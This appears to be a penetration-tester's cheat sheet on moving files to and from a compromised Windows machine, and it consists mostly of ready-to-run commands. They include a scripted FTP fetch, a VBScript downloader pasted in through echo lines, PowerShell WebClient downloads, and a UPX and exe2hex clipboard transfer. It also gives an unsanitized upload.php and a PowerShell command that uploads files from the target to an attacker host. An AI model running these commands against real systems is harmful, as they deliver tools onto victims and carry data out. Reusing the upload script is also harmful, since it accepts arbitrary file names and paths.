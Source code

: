 # File Uploads

## Windows 

### Non-interactive FTP

```
echo open ipaddress> ftp.txt
echo USER username>> ftp.txt
echo password>> ftp.txt
echo bin>> ftp.txt
echo GET filename>> ftp.txt
echo bye>> ftp.txt
ftp -n -v -s:ftp.txt
```

### VBScript

```
curl -L -O https://gist.githubusercontent.com/maddouri/da64f298e19bff0cd1ce46ee83317bfe/raw/90080a73b892b09dde9dd2c787814bac502d7f46/wget.vbs
```
```
cat wget.vbs | sed -e 's/^/echo /' | sed -e 's/$/>> wget.vbs/' > wget.vbs.echo
cat wget.vbs.echo | xclip -selection clipboard
```
```
cscript wget.vbs <url> (file)
```

### Powershell

```
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://ipaddress/filename', 'filename')
```

### Clipboard

```
upx -9 file.exe # compresses the file inplace
exe2hex -x file.exe -p fild.cmd
cat file.cmd | xclip -selection clipboard
```

# File Donwloads

## Local upload PHP

```
sudo mkdir /var/www/uploads
sudo chown www-data /var/www/uploads
```
In `/var/www/html/upload.php`:
```
<?php
$uploaddir = '/var/www/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile);
?>
```
From target:
```
powershell (New-Object System.Net.WebClient).UploadFile('http://ipaddress/upload.php', 'filename')
```

